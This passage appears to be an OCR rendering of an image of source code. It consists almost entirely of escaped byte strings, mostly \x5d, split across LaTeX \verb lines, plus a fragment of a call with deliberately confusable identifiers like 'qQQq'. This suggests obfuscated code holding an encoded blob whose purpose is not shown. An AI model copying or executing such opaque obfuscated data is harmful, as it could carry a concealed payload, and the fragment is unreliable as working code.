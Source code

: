 \verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x00\x00\x00\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d"|\newline
\verb|),|\newline
\verb|qQQq(94,qQQqqQQq|\newline
\verb|"\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x00\x5d\x5d\x00\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x00\x00\x5f\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
\verb|\\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\x5d\|\newline
